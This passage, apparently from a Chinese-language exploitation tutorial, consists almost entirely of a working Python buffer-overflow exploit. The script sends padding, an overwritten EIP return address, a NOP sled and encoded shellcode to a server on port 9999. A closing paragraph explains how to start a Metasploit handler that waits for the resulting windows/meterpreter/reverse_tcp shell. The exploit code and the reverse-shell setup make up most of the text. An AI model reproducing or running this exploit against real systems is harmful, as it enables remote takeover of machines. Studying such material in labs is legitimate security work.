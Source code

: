     # coding:utf-8
    
    import socket
    host = "192.168.9.118"
    port = 9999
    sock = socket.socket(socket.AF_INET,socket.SOCK_STREAM)
    sock.connect((host,port))
    command = b"send |/.:/"      # 发送数据包头
    buffer = b'A' * 2002         # 实际缓冲区填充物
    eip = b'\xED\x11\x50\x62'    # 此处就是EIP跳转地址地址应该反写
    nops = b'\x90' * 50          # nop雪橇的位置
    
    buf =  b""
    buf += b"\xda\xd6\xb8\x8e\x0b\x73\x3d\xd9\x74\x24\xf4\x5f"
    buf += b"\x2b\xc9\xb1\x59\x31\x47\x19\x83\xc7\x04\x03\x47"
    buf += b"\x15\x6c\xfe\x8f\xd5\xff\x01\x70\x26\x9f\x88\x95"
    buf += b"\x17\x8d\xef\xde\x0a\x01\x7b\xb2\xa6\xea\x29\x27"
    buf += b"\x86\x13\xc2\xf0\xa2\xcd\x56\x8c\x1a\x20\xa9\xdd"
    buf += b"\x67\x23\x55\x1c\xb4\x83\x64\xef\xc9\xc2\xa1\xb9"
    buf += b"\xa4\x2b\x7f\x6d\xcc\xe1\x90\x1a\x90\x39\x90\xcc"
    buf += b"\x9e\x01\xea\x69\x60\xf5\x46\x73\xb1\x7e\x1e\x6b"
    buf += b"\xba\xd8\xbf\x8a\x6f\x88\x3a\x45\xfb\x14\x74\xa9"
    buf += b"\x4d\xef\x42\xde\x4f\x39\x9b\x20\xe3\x04\x13\xad"
    buf += b"\xfd\x41\x94\x4e\x88\xb9\xe6\xf3\x8b\x7a\x94\x2f"
    buf += b"\x19\x9c\x3e\xbb\xb9\x78\xbe\x68\x5f\x0b\xcc\xc5"
    buf += b"\x2b\x53\xd1\xd8\xf8\xe8\xed\x51\xff\x3e\x64\x21"
    buf += b"\x24\x9a\x2c\xf1\x45\xbb\x88\x54\x79\xdb\x75\x08"
    buf += b"\xdf\x90\x94\x5f\x5f\x59\x67\x60\x3d\xcd\xab\xad"
    buf += b"\xbe\x0d\xa4\xa6\xcd\x3f\x6b\x1d\x5a\x73\xe4\xbb"
    buf += b"\x9d\x02\xe2\x3b\x71\xac\x63\xc2\x72\xcc\xaa\x01"
    buf += b"\x26\x9c\xc4\xa0\x47\x77\x15\x4c\x92\xed\x1f\xda"
    buf += b"\xdd\x59\x16\x9d\xb6\x9b\x29\x83\xfe\x12\xcf\x93"
    buf += b"\xae\x74\x40\x54\x1f\x34\x30\x3c\x75\xbb\x6f\x5c"
    buf += b"\x76\x16\x18\xf7\x99\xce\x70\x60\x03\x4b\x0a\x11"
    buf += b"\xcc\x46\x76\x11\x46\x62\x86\xdc\xaf\x07\x94\x09"
    buf += b"\xc8\xe7\x64\xca\x7d\xe7\x0e\xce\xd7\xb0\xa6\xcc"
    buf += b"\x0e\xf6\x68\x2e\x65\x85\x6f\xd0\xf8\xbf\x04\xe7"
    buf += b"\x6e\xff\x72\x08\x7f\xff\x82\x5e\x15\xff\xea\x06"
    buf += b"\x4d\xac\x0f\x49\x58\xc1\x83\xdc\x63\xb3\x70\x76"
    buf += b"\x0c\x39\xae\xb0\x93\xc2\x85\xc2\xd4\x3c\x5b\xed"
    buf += b"\x7c\x54\xa3\xad\x7c\xa4\xc9\x2d\x2d\xcc\x06\x01"
    buf += b"\xc2\x3c\xe6\x88\x8b\x54\x6d\x5d\x79\xc5\x72\x74"
    buf += b"\xdf\x5b\x72\x7b\xc4\x6c\x09\xf4\xfb\x8d\xee\x1c"
    buf += b"\x98\x8e\xee\x20\x9e\xb3\x38\x19\xd4\xf2\xf8\x1e"
    buf += b"\xe7\x41\x5c\x36\x62\xa9\xf2\x48\xa7"
    
    sock.send(command + buffer + eip + nops + buf)
    sock.close()
    

最后读者使用`Metasploit`框架的命令行界面来配置一个攻击。该代码使用了`exploit/multi/handler`模块，该模块是`Metasploit`框架中的一个通用攻击模块，用于监听反向连接。代码中`set payload`命令来设置攻击的有效载荷，本例中使用的是 `windows/meterpreter/reverse_tcp`最后使用`set`设置主机IP及PORT端口，最后执行`exploit`命令启动侦听器，等待反弹；
